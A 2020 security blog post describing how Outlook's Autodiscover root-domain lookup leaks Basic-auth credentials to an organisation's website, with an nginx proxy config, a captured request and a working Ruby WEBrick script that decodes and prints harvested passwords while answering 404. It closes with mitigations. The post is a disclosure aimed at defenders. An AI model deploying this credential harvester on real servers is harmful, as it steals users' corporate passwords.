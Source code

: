 ```yaml
---
title: Obtaining Corporate Credentials via the Autodiscover Circus
description: Obtaining Corporate Credentials via the Autodiscover Circus
date: 2020-09-02
tags: [autodiscover, vulnerabililty]
---
```


# Layout

It's fairly common for an organisation's website to exist outside the organisation's operational security policies. There's a common justification that for many organisations, the website is a marketing landing page and no sensitive data is ever involved. This in turn oftens leads to the prevance of, for example, shared hosting companies holding dozens of compromised Wordpress sites at a time.

We regularly see this when major businesses are compromised. This is unfortunate.

# Autodiscover noise

Anyone who has read the web access log on such a server has probably found themselve Googling what autodiscover.xml is. Here's an example from my own server, of something which may be rare if you have a few users. I grepped an larger organisation's log and found around 1200 hits per day.

```
020/09/02 05:54:40 [error] 385#385: *33613 open() "/var/www/html/autodiscover/autodiscover.xml" failed (2: No such file or directory),
    client: 1.2.3.4, server: lolware.net, request: "POST /autodiscover/autodiscover.xml HTTP/1.1", host: "lolware.net"
```
The reason for this is Microsoft's Autodiscover mechanism. And it's worth noting that while I'm going to talk about Outlook, many mail clients support autodiscover with varying rules and process.

Microsoft have a good technical brief here: [https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover](https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover).

As you can see, step six of the discovery processis "check the root domain". And that tends to be a step that's hit before the issue is settled, usually at step 7 or step 9. You can also see described the triggers and schedules for autodiscover.

A more practical, and digestable article for people not often working with Office 365 can be seen here: [https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/](https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/).

I quite like this article as the reference to the web hosting circus will be quite familiar to anyone who has had to support the average shared hosting environment. Those people will be familiar with how common hacked websites are.

# About that hacked webserver

The problem with the autodiscovery situation described is that I can put a redirect in my web server's nginx config:

```
        location /autodiscover/autodiscover.xml {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_pass http://localhost:8089;
        }
```

And of course similar options exist for Apache. With this in place, here's a dump of a proxied connection:

```
[2020-09-02 06:09:09] ERROR `/autodiscover/autodiscover.xml' not found.
127.0.0.1 - - [02/Sep/2020:06:09:09 UTC] "POST /autodiscover/autodiscover.xml HTTP/1.0" 404 299
- -> /autodiscover/autodiscover.xml


POST /autodiscover/autodiscover.xml HTTP/1.0
X-Forwarded-For: 1.2.3.4
Host: localhost:8089
Connection: close
Content-Length: 361
Content-Type: text/xml
User-Agent: Outlook/16.0 (16.0.5023.1000; MSI; x86)
X-MS-WL: Outlook/1.0
X-TransactionID: {BA9B4E4B-B8AD-40F0-893A-6A2059ACE7A6}
Authorization: Basic ZXhhbXBsZXVzZXJAbG9sd2FyZS5uZXQ6aW1hZ2luZWFwYXNzd29yZA==

<?xml version="1.0" encoding="UTF-8"?><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/requestschema/2006"><Request><EMailAddress>exampleuser@lolware.net</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006</AcceptableResponseSchema></Request></Autodiscover>
```

What's crucial here is that as long as the server doesn't immediately reject the connection with a 404, the connecting client sends a discovery request that *includes an Authorization header*. The below code can take advantage of this:

```ruby
#!/usr/bin/env ruby
# Reference: https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
require 'webrick'
require 'base64'

class Echo < WEBrick::HTTPServlet::AbstractServlet
  def do_POST(request, response)
    auth = request['Authorization']
    m = auth.match(/Basic (.+)/)
    if m
      puts "Credential Dump: " + Base64.decode64(m[1])
    end

    # Present a friendly normal "not here" to the connection
    response.status = 404
  end
end

server = WEBrick::HTTPServer.new(:Port => 8089)
server.mount "/", Echo
trap "INT" do server.shutdown end
server.start



```

# Secure Corporate Assets. Insecure website. User Passwords Dumped Anyway

Now obviously before I wrote this blog, I setup a temporary account and connected Outlook. Running the above code on my server started pumping this sort of content to the console.

```ruby
$ ./webrickprint.rb
[2020-09-02 06:41:19] INFO  WEBrick 1.4.2
[2020-09-02 06:41:19] INFO  ruby 2.6.5 (2019-10-01) [x86_64-linux]
[2020-09-02 06:41:19] INFO  WEBrick::HTTPServer#start: pid=323527 port=8089
Credential Dump: exampleuser@lolware.net:thiscouldbeyourpassword
```

# Mitigations

Microsoft's article discusses the *ExcludeHttpRedirect* registry key, but for most cases it's not a solution as it won't impact mobile users or anyone not using your exact version of Outlook on a corporate device.

The most approachable I've come up with is that a redirect can be put in place upstream if you use a service like Cloudflare. The following page rule takes this URL out of the hands of a web host by redirecting the connection to the correct place.


<amp-img
    src="/assets/images/autodiscoverpagerule.png"
    height="322"
    width="827"
    alt="Cloudflare autodiscover page rule"
    layout="responsive"
    ></amp-img>

The practical365 site states "the root domain lookup makes absolutely no sense to me" and any attempt to read a discussion on the issue will lead you to plenty of discussion of this as nonsense. Unfortunately for as long as this priority exists, this problem will.

